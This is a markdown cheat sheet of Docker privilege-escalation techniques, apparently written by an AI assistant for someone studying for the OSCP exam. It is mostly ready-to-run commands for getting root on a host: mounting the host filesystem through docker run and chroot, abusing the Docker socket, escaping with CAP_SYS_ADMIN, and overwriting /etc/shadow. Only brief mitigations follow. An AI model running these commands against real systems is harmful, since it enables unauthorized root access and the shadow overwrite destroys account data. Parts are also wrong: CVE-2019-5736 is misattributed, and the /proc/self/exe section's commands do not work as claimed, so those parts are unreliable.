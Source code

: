 # Docker Privilege Escalation Techniques

## Index
1. [If the user is in the `docker` group (CVE-2019-5736)](#user-in-docker-group)
2. [Escaping from a Privileged Container](#escaping-privileged-container)
    - [Method 1: Mount Host Filesystem](#mount-host-filesystem)
    - [Method 2: Overwrite `/etc/shadow`](#overwrite-etc-shadow)
3. [Exploiting Docker Socket (`/var/run/docker.sock`)](#exploiting-docker-socket)
4. [Using `capsh` in Containers (Capability Escalation)](#using-capsh)
5. [Abusing `/proc/self/exe` with Host Binaries](#abusing-proc-self-exe)
6. [Mitigations (For Defense)](#mitigations)

---

## 1️⃣ If the User is in the `docker` Group (CVE-2019-5736) <a name="user-in-docker-group"></a>
### **Impact:**  
Users in the `docker` group can run containers as `root` on the host.

### **Exploit:**
Run a privileged container and mount the host filesystem:
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
This will give you **root access** on the host.

Alternatively, if you suspect the host has Bash:
```bash
docker run -it --rm -v /:/host ubuntu chroot /host /bin/bash
```
Now you are **root** on the host system.

---

## 2️⃣ Escaping from a Privileged Container <a name="escaping-privileged-container"></a>
If the container is running with **`--privileged`**, it has access to all host devices.

### **Method 1: Mount Host Filesystem** <a name="mount-host-filesystem"></a>
```bash
mount -o bind / /mnt
chroot /mnt sh
```
You now have **root** on the host.

### **Method 2: Overwrite `/etc/shadow`** <a name="overwrite-etc-shadow"></a>
If you can modify host files:
```bash
echo "root:\$6\$salt\$hash:18648:0:99999:7:::" > /etc/shadow
```
Then use the new password to log in.

---

## 3️⃣ Exploiting Docker Socket (`/var/run/docker.sock`) <a name="exploiting-docker-socket"></a>
If the **Docker socket** is writable, you can create a new container with full access.

```bash
docker run -v /var/run/docker.sock:/var/run/docker.sock -it alpine sh
```
Or start a **privileged container** directly:
```bash
docker run -it --privileged --net=host --pid=host -v /:/mnt alpine chroot /mnt sh
```
This grants **root access to the host**.

---

## 4️⃣ Using `capsh` in Containers (Capability Escalation) <a name="using-capsh"></a>
If capabilities like `CAP_SYS_ADMIN` are enabled, you can escalate privileges.

```bash
capsh --print
```
If you have `CAP_SYS_ADMIN`, you can mount the host filesystem:
```bash
mount -o bind / /mnt
chroot /mnt sh
```
Now you have **root access**.

---

## 5️⃣ Abusing `/proc/self/exe` with Host Binaries <a name="abusing-proc-self-exe"></a>
Some containers allow execution of host binaries. If `bash` is present:
```bash
/proc/self/exe
```
Or try executing `/bin/bash` from outside the container:
```bash
cat /proc/1/root/bin/bash
```

---

## 🔥 Mitigations (For Defense) <a name="mitigations"></a>
1. **Remove users from the `docker` group** unless necessary.
2. **Disable privileged mode** (`--privileged`).
3. **Restrict access to `/var/run/docker.sock`**.
4. **Use seccomp and AppArmor profiles**.
5. **Enforce least privilege with Kubernetes or Docker policies**.

---

Would you like a **lab setup** to practice these techniques before your OSCP exam? 🚀
